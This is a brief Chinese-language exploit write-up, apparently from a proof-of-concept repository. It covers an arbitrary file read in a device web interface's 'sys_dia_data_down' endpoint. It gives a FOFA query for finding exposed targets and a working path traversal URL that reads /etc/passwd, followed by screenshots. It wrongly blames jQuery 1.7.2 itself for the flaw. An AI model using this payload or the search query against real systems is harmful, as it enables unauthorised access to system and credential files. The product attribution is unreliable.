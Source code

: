 # 漏洞描述
jQuery-1.7.2版本的sys_dia_data_down模块存在任意文件读取漏洞，攻击者可通过前台读取任意文件。

# 影响版本
1.7.2

# fofa查询语句
body="webui/js/jquerylib/jquery-1.7.2.min.js"

# 漏洞复现
``` bash
https://127.0.0.1/webui/?g=sys_dia_data_down&file_name=../../../../../etc/passwd
```

![image](https://github.com/xxxxfang/Vulnerabilities-EXP-POC/assets/86756456/4328ff72-c011-4312-8d9e-421806046797)

![image](https://github.com/xxxxfang/Vulnerabilities-EXP-POC/assets/86756456/bed4e41b-4e7e-4383-b064-b68082413e81)


